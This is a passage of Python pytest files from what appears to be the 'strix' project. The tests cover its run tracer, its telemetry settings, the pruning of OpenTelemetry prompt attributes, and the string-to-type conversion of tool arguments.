def test_set_run_name_resets_cached_paths(monkeypatch, tmp_path) -> None:
    monkeypatch.chdir(tmp_path)

    tracer = Tracer()
    set_global_tracer(tracer)
    old_events_path = tracer.events_file_path

    tracer.set_run_name("renamed-run")
    tracer.log_chat_message("hello", "assistant", "agent-1")

    new_events_path = tracer.events_file_path
    assert new_events_path != old_events_path
    assert new_events_path == tmp_path / "strix_runs" / "renamed-run" / "events.jsonl"

    events = _load_events(new_events_path)
    assert any(event["event_type"] == "run.started" for event in events)
    assert any(event["event_type"] == "chat.message" for event in events)


def test_set_run_name_resets_run_completed_flag(monkeypatch, tmp_path) -> None:
    monkeypatch.chdir(tmp_path)

    tracer = Tracer()
    set_global_tracer(tracer)

    tracer.save_run_data(mark_complete=True)
    tracer.set_run_name("renamed-complete")
    tracer.save_run_data(mark_complete=True)

    events_path = tmp_path / "strix_runs" / "renamed-complete" / "events.jsonl"
    events = _load_events(events_path)
    run_completed = [event for event in events if event["event_type"] == "run.completed"]

    assert any(event["event_type"] == "run.started" for event in events)
    assert len(run_completed) == 1


def test_set_run_name_updates_traceloop_association_properties(monkeypatch, tmp_path) -> None:
    monkeypatch.chdir(tmp_path)

    class FakeTraceloop:
        associations: ClassVar[list[dict[str, Any]]] = []

        @staticmethod
        def init(**kwargs: Any) -> None:  # noqa: ARG004
            return None

        @staticmethod
        def set_association_properties(properties: dict[str, Any]) -> None:
            FakeTraceloop.associations.append(properties)

    monkeypatch.setattr(tracer_module, "Traceloop", FakeTraceloop)

    tracer = Tracer()
    set_global_tracer(tracer)
    tracer.set_run_name("renamed-run")

    assert FakeTraceloop.associations
    assert FakeTraceloop.associations[-1]["run_id"] == "renamed-run"
    assert FakeTraceloop.associations[-1]["run_name"] == "renamed-run"


def test_events_write_locks_are_scoped_by_events_file(monkeypatch, tmp_path) -> None:
    monkeypatch.chdir(tmp_path)
    monkeypatch.setenv("STRIX_TELEMETRY", "0")

    tracer_one = Tracer("lock-run-a")
    tracer_two = Tracer("lock-run-b")

    lock_a_from_one = tracer_one._get_events_write_lock(tracer_one.events_file_path)
    lock_a_from_two = tracer_two._get_events_write_lock(tracer_one.events_file_path)
    lock_b = tracer_two._get_events_write_lock(tracer_two.events_file_path)

    assert lock_a_from_one is lock_a_from_two
    assert lock_a_from_one is not lock_b


def test_tracer_skips_jsonl_when_telemetry_disabled(monkeypatch, tmp_path) -> None:
    monkeypatch.chdir(tmp_path)
    monkeypatch.setenv("STRIX_TELEMETRY", "0")

    tracer = Tracer("telemetry-disabled")
    set_global_tracer(tracer)
    tracer.log_chat_message("hello", "assistant", "agent-1")
    tracer.save_run_data(mark_complete=True)

    events_path = tmp_path / "strix_runs" / "telemetry-disabled" / "events.jsonl"
    assert not events_path.exists()


def test_tracer_otel_flag_overrides_global_telemetry(monkeypatch, tmp_path) -> None:
    monkeypatch.chdir(tmp_path)
    monkeypatch.setenv("STRIX_TELEMETRY", "0")
    monkeypatch.setenv("STRIX_OTEL_TELEMETRY", "1")

    tracer = Tracer("otel-enabled")
    set_global_tracer(tracer)
    tracer.log_chat_message("hello", "assistant", "agent-1")
    tracer.save_run_data(mark_complete=True)

    events_path = tmp_path / "strix_runs" / "otel-enabled" / "events.jsonl"
    assert events_path.exists()
```

## File: `tests/telemetry/test_utils.py`
```python
from strix.telemetry.utils import prune_otel_span_attributes


def test_prune_otel_span_attributes_drops_high_volume_prompt_content() -> None:
    attributes = {
        "gen_ai.operation.name": "openai.chat",
        "gen_ai.request.model": "gpt-5.2",
        "gen_ai.prompt.0.role": "system",
        "gen_ai.prompt.0.content": "a" * 20_000,
        "gen_ai.completion.0.content": "b" * 10_000,
        "llm.input_messages.0.content": "c" * 5_000,
        "llm.output_messages.0.content": "d" * 5_000,
        "llm.input": "x" * 3_000,
        "llm.output": "y" * 3_000,
    }

    pruned = prune_otel_span_attributes(attributes)

    assert "gen_ai.prompt.0.content" not in pruned
    assert "gen_ai.completion.0.content" not in pruned
    assert "llm.input_messages.0.content" not in pruned
    assert "llm.output_messages.0.content" not in pruned
    assert "llm.input" not in pruned
    assert "llm.output" not in pruned
    assert pruned["gen_ai.operation.name"] == "openai.chat"
    assert pruned["gen_ai.prompt.0.role"] == "system"
    assert pruned["strix.filtered_attributes_count"] == 6


def test_prune_otel_span_attributes_keeps_metadata_when_nothing_is_dropped() -> None:
    attributes = {
        "gen_ai.operation.name": "openai.chat",
        "gen_ai.request.model": "gpt-5.2",
        "gen_ai.prompt.0.role": "user",
    }

    pruned = prune_otel_span_attributes(attributes)

    assert pruned == attributes
```

## File: `tests/telemetry/__init__.py`
```python
"""Tests for strix.telemetry module."""
```

## File: `tests/tools/conftest.py`
```python
"""Fixtures for strix.tools tests."""

from collections.abc import Callable
from typing import Any

import pytest


@pytest.fixture
def sample_function_with_types() -> Callable[..., None]:
    """Create a sample function with type annotations for testing argument conversion."""

    def func(
        name: str,
        count: int,
        enabled: bool,
        ratio: float,
        items: list[Any],
        config: dict[str, Any],
        optional: str | None = None,
    ) -> None:
        pass

    return func


@pytest.fixture
def sample_function_no_annotations() -> Callable[..., None]:
    """Create a sample function without type annotations."""

    def func(arg1, arg2, arg3):  # type: ignore[no-untyped-def]
        pass

    return func
```

## File: `tests/tools/test_argument_parser.py`
```python
from collections.abc import Callable

import pytest

from strix.tools.argument_parser import (
    ArgumentConversionError,
    _convert_basic_types,
    _convert_to_bool,
    _convert_to_dict,
    _convert_to_list,
    convert_arguments,
    convert_string_to_type,
)


class TestConvertToBool:
    """Tests for the _convert_to_bool function."""

    @pytest.mark.parametrize(
        "value",
        ["true", "True", "TRUE", "1", "yes", "Yes", "YES", "on", "On", "ON"],
    )
    def test_truthy_values(self, value: str) -> None:
        """Test that truthy string values are converted to True."""
        assert _convert_to_bool(value) is True

    @pytest.mark.parametrize(
        "value",
        ["false", "False", "FALSE", "0", "no", "No", "NO", "off", "Off", "OFF"],
    )
    def test_falsy_values(self, value: str) -> None:
        """Test that falsy string values are converted to False."""
        assert _convert_to_bool(value) is False

    def test_non_standard_truthy_string(self) -> None:
        """Test that non-empty non-standard strings are truthy."""
        assert _convert_to_bool("anything") is True
        assert _convert_to_bool("hello") is True

    def test_empty_string(self) -> None:
        """Test that empty string is falsy."""
        assert _convert_to_bool("") is False


class TestConvertToList:
    """Tests for the _convert_to_list function."""

    def test_json_array_string(self) -> None:
        """Test parsing a JSON array string."""
        result = _convert_to_list('["a", "b", "c"]')
        assert result == ["a", "b", "c"]

    def test_json_array_with_numbers(self) -> None:
        """Test parsing a JSON array with numbers."""
        result = _convert_to_list("[1, 2, 3]")
        assert result == [1, 2, 3]

    def test_comma_separated_string(self) -> None:
        """Test parsing a comma-separated string."""
        result = _convert_to_list("a, b, c")
        assert result == ["a", "b", "c"]

    def test_comma_separated_no_spaces(self) -> None:
        """Test parsing comma-separated values without spaces."""
        result = _convert_to_list("x,y,z")
        assert result == ["x", "y", "z"]

    def test_single_value(self) -> None:
        """Test that a single value returns a list with one element."""
        result = _convert_to_list("single")
        assert result == ["single"]

    def test_json_non_array_wraps_in_list(self) -> None:
        """Test that a valid JSON non-array value is wrapped in a list."""
        result = _convert_to_list('"string"')
        assert result == ["string"]

    def test_json_object_wraps_in_list(self) -> None:
        """Test that a JSON object is wrapped in a list."""
        result = _convert_to_list('{"key": "value"}')
        assert result == [{"key": "value"}]

    def test_empty_json_array(self) -> None:
        """Test parsing an empty JSON array."""
        result = _convert_to_list("[]")
        assert result == []


class TestConvertToDict:
    """Tests for the _convert_to_dict function."""

    def test_valid_json_object(self) -> None:
        """Test parsing a valid JSON object string."""
        result = _convert_to_dict('{"key": "value", "number": 42}')
        assert result == {"key": "value", "number": 42}

    def test_empty_json_object(self) -> None:
        """Test parsing an empty JSON object."""
        result = _convert_to_dict("{}")
        assert result == {}

    def test_invalid_json_returns_empty_dict(self) -> None:
        """Test that invalid JSON returns an empty dictionary."""
        result = _convert_to_dict("not json")
        assert result == {}

    def test_json_array_returns_empty_dict(self) -> None:
        """Test that a JSON array returns an empty dictionary."""
        result = _convert_to_dict("[1, 2, 3]")
        assert result == {}

    def test_nested_json_object(self) -> None:
        """Test parsing a nested JSON object."""
        result = _convert_to_dict('{"outer": {"inner": "value"}}')
        assert result == {"outer": {"inner": "value"}}


class TestConvertBasicTypes:
    """Tests for the _convert_basic_types function."""

    def test_convert_to_int(self) -> None:
        """Test converting string to int."""
        assert _convert_basic_types("42", int) == 42
        assert _convert_basic_types("-10", int) == -10

    def test_convert_to_float(self) -> None:
        """Test converting string to float."""
        assert _convert_basic_types("3.14", float) == 3.14
        assert _convert_basic_types("-2.5", float) == -2.5

    def test_convert_to_str(self) -> None:
        """Test converting string to str (passthrough)."""
        assert _convert_basic_types("hello", str) == "hello"

    def test_convert_to_bool(self) -> None:
        """Test converting string to bool."""
        assert _convert_basic_types("true", bool) is True
        assert _convert_basic_types("false", bool) is False

    def test_convert_to_list_type(self) -> None:
        """Test converting to list type."""
        result = _convert_basic_types("[1, 2, 3]", list)
        assert result == [1, 2, 3]

    def test_convert_to_dict_type(self) -> None:
        """Test converting to dict type."""
        result = _convert_basic_types('{"a": 1}', dict)
        assert result == {"a": 1}

    def test_unknown_type_attempts_json(self) -> None:
        """Test that unknown types attempt JSON parsing."""
        result = _convert_basic_types('{"key": "value"}', object)
        assert result == {"key": "value"}

    def test_unknown_type_returns_original(self) -> None:
        """Test that unparseable values are returned as-is."""
        result = _convert_basic_types("plain text", object)
        assert result == "plain text"


class TestConvertStringToType:
    """Tests for the convert_string_to_type function."""

    def test_basic_type_conversion(self) -> None:
        """Test basic type conversions."""
        assert convert_string_to_type("42", int) == 42
        assert convert_string_to_type("3.14", float) == 3.14
        assert convert_string_to_type("true", bool) is True

    def test_optional_type(self) -> None:
        """Test conversion with Optional type."""
        result = convert_string_to_type("42", int | None)
        assert result == 42

    def test_union_type(self) -> None:
        """Test conversion with Union type."""
        result = convert_string_to_type("42", int | str)
        assert result == 42

    def test_union_type_with_none(self) -> None:
        """Test conversion with Union including None."""
        result = convert_string_to_type("hello", str | None)
        assert result == "hello"

    def test_modern_union_syntax(self) -> None:
        """Test conversion with modern union syntax (int | None)."""
        result = convert_string_to_type("100", int | None)
        assert result == 100


class TestConvertArguments:
    """Tests for the convert_arguments function."""

    def test_converts_typed_arguments(
        self, sample_function_with_types: Callable[..., None]
    ) -> None:
        """Test that arguments are converted based on type annotations."""
        kwargs = {
            "name": "test",
            "count": "5",
            "enabled": "true",
            "ratio": "2.5",
            "items": "[1, 2, 3]",
            "config": '{"key": "value"}',
        }
        result = convert_arguments(sample_function_with_types, kwargs)

        assert result["name"] == "test"
        assert result["count"] == 5
        assert result["enabled"] is True
        assert result["ratio"] == 2.5
        assert result["items"] == [1, 2, 3]
        assert result["config"] == {"key": "value"}

    def test_passes_through_none_values(
        self, sample_function_with_types: Callable[..., None]
    ) -> None:
        """Test that None values are passed through unchanged."""
        kwargs = {"name": "test", "count": None}
        result = convert_arguments(sample_function_with_types, kwargs)
        assert result["count"] is None

    def test_passes_through_non_string_values(
        self, sample_function_with_types: Callable[..., None]
    ) -> None:
        """Test that non-string values are passed through unchanged."""
        kwargs = {"name": "test", "count": 42}
        result = convert_arguments(sample_function_with_types, kwargs)
        assert result["count"] == 42

    def test_unknown_parameter_passed_through(
        self, sample_function_with_types: Callable[..., None]
    ) -> None:
        """Test that parameters not in signature are passed through."""
        kwargs = {"name": "test", "unknown_param": "value"}
        result = convert_arguments(sample_function_with_types, kwargs)
        assert result["unknown_param"] == "value"

    def test_function_without_annotations(
        self, sample_function_no_annotations: Callable[..., None]
    ) -> None:
        """Test handling of functions without type annotations."""
        kwargs = {"arg1": "value1", "arg2": "42"}
        result = convert_arguments(sample_function_no_annotations, kwargs)
        assert result["arg1"] == "value1"
        assert result["arg2"] == "42"

    def test_raises_error_on_conversion_failure(
        self, sample_function_with_types: Callable[..., None]
    ) -> None:
        """Test that ArgumentConversionError is raised on conversion failure."""
        kwargs = {"count": "not_a_number"}
        with pytest.raises(ArgumentConversionError) as exc_info:
            convert_arguments(sample_function_with_types, kwargs)
        assert exc_info.value.param_name == "count"


class TestArgumentConversionError:
    """Tests for the ArgumentConversionError exception class."""

    def test_error_with_param_name(self) -> None:
        """Test creating error with parameter name."""
        error = ArgumentConversionError("Test error", param_name="test_param")
        assert error.param_name == "test_param"
        assert str(error) == "Test error"

    def test_error_without_param_name(self) -> None:
        """Test creating error without parameter name."""
        error = ArgumentConversionError("Test error")
        assert error.param_name is None
        assert str(error) == "Test error"
```

## File: `tests/tools/__init__.py`
```python
"""Tests for strix.tools module."""
```

